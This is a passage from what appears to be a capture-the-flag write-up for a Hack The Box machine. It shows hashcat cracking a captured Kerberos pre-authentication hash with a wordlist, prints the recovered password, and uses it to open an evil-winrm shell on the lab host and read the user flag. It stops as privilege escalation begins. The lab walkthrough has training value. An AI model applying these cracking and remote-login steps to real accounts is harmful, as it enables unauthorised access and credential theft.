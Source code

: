 ```powershell
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7...e852f0
Time.Started.....: Fri Oct  3 16:59:40 2025 (2 secs)
Time.Estimated...: Fri Oct  3 16:59:42 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9279 H/s (12.02ms) @ Accel:128 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14080/14344385 (0.10%)
Rejected.........: 0/14080 (0.00%)
Restore.Point....: 13440/14344385 (0.09%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3072-4095
Candidate.Engine.: Device Generator
Candidates.#1....: vonnie -> doghouse
Hardware.Mon.#1..: Util: 83%

```

Let’s goo we have our password now for Lion.SK which is “!QAZ2wsx”.

We only need to access the winrm session now to get our user flag.

```powershell
                                                                                                                                                                                                                                            
┌──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ evil-winrm  -i 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> type ..\Desktop\user.txt
cdddf0612ada44030eb8073d19f3b27c
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> 
```

## **Privilege Escalation**

Going back to our bloodhound to check for the next escalation, I found out that “Lion.SK” user is a member of an interesting group.
